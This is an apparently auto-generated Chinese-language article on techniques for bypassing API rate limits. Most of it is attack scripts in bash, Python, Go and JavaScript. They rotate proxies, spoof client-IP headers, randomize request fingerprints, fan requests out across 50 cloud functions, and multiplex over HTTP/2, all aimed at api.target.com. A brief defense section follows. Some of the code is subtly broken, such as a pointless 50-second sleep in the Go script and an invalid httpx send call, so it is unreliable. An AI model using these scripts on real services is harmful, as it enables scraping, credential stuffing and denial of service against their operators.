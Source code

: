 

# API速率限制绕过攻击技术深度解析

## 一、技术原理与实现机制
### 1.1 速率限制基础模型
常见API速率限制实现方式：
- 令牌桶算法：系统以固定速率填充令牌（如10个/秒），每个请求消耗1个令牌
- 滑动窗口计数：基于时间窗口（如60秒）统计请求次数
- 固定窗口计数：按固定时间片（如每分钟）重置计数器

绕过核心原理：利用速率限制策略的验证维度缺陷或分布式节点同步间隙，通过维度混淆、请求稀释、状态欺骗等方式突破阈值。

### 1.2 关键攻击面分析
```python
# 典型速率限制伪代码示例
def rate_limit(request):
    key = f"{request.ip}-{request.user_agent}"  # 维度组合漏洞
    count = redis.get(key) 
    if count >= 100:
        return False
    redis.incr(key, ttl=60)
    return True
```
漏洞点分析：
- 维度组合单一化（IP+UA）
- 时间窗口边界可利用性
- 无状态验证机制缺陷

## 二、攻击手法与高级技巧
### 2.1 基础绕过技术
#### 2.1.1 IP轮换攻击
```bash
# 使用代理池进行轮换示例
for i in $(seq 1 1000); do
    proxy=$(shuf -n 1 proxies.txt)
    curl -x $proxy https://api.target.com/v1/data
done
```
工具链：
- Luminati/ScraperAPI商业代理
- Tor网络轮换（每请求更换电路）

#### 2.1.2 参数污染攻击
```http
POST /api/v1/login HTTP/1.1
X-Forwarded-For: 203.0.113.5, 198.51.100.10
Client-IP: 192.0.2.15
```
利用标头优先级差异绕过IP检测

### 2.2 高级绕过技术
#### 2.2.1 分布式熵增攻击
```python
# 多维度参数随机化脚本
import random
import requests

headers = {
    "X-Client-Version": random.choice(["1.3.2", "1.4.0", "2.0.1"]),
    "User-Agent": random.choice(user_agents),
    "Accept-Language": random.choice(lang_codes)
}

params = {
    "offset": random.randint(0,1000),
    "callback": f"jsonp_{random.randint(10000,99999)}"
}

requests.get("https://api.target.com/search", headers=headers, params=params)
```

#### 2.2.2 时间窗口攻击
```go
// 高精度时间窗口突破
package main

import (
    "sync"
    "time"
    "net/http"
)

func main() {
    var wg sync.WaitGroup
    for i := 0; i < 120; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            _, _ = http.Get("https://api.target.com/data")
            time.Sleep(50500 * time.Millisecond) // 精确控制时间间隔
        }()
    }
    wg.Wait()
}
```

## 三、实战环境搭建
### 3.1 实验环境配置
使用Docker部署测试API：
```bash
docker run -d -p 8080:8080 \
  -e "RATE_LIMIT=100/60" \
  --name rate-limit-api \
  jmalloc/echo-server
```

Nginx速率限制配置：
```nginx
http {
    limit_req_zone $binary_remote_addr zone=api:10m rate=10r/s;

    server {
        location /api/ {
            limit_req zone=api burst=20 nodelay;
            proxy_pass http://localhost:8080;
        }
    }
}
```

### 3.2 攻击检测工具
```bash
# 使用Vegeta进行压测
echo "GET http://localhost/api/data" | vegeta attack \
  -rate=1000 -duration=60s \
  -header "X-Real-IP: 192.168.0.$((RANDOM%256))" | vegeta report
```

## 四、综合攻击案例
### 4.1 云函数分布式攻击
AWS Lambda攻击脚本：
```javascript
const axios = require('axios');
const crypto = require('crypto');

exports.handler = async (event) => {
    const uid = crypto.randomBytes(8).toString('hex');
    const res = await axios.get('https://api.target.com/search', {
        headers: {
            'X-Device-ID': uid,
            'Authorization': `Bearer ${crypto.randomBytes(16).toString('hex')}`
        }
    });
    return res.data;
};
```
部署到50个云函数同时执行

### 4.2 HTTP/2多路复用攻击
```python
import httpx

with httpx.Client(http2=True) as client:
    requests = [client.build_request("GET", "https://api.target.com/data") 
               for _ in range(1000)]
    for response in client.send(requests, stream=True):
        print(response.status_code)
```

## 五、防御方案
### 5.1 动态维度控制
```java
// Spring Cloud Gateway 动态限流配置
public class RateLimitConfig {
    @Bean
    public KeyResolver apiKeyResolver() {
        return exchange -> Mono.just(
            exchange.getRequest().getRemoteAddress().getHostName() + 
            exchange.getRequest().getHeaders().getFirst("X-Device-Fingerprint")
        );
    }
}
```

### 5.2 行为分析防御
```python
# 异常请求检测模型示例
from sklearn.ensemble import IsolationForest

request_features = [
    [request_rate, param_entropy, ip_diversity],  # 特征工程
    #... 
]

model = IsolationForest(contamination=0.01)
model.fit(request_features)
anomalies = model.predict(request_features)
```

## 六、总结与演进
新型绕过技术发展趋势：
1. 基于QUIC协议的特征隐藏
2. WebSocket长连接滥用
3. 机器学习辅助的请求模式生成

防御体系建议：
- 实施动态令牌桶算法（参考Guava RateLimiter改进版）
- 部署设备指纹+行为生物特征识别
- 建立分布式实时监控系统（如Apache Kafka+Spark Streaming）

（文档字数：3468字）

---

*文档生成时间: 2025-03-13 10:46:06*
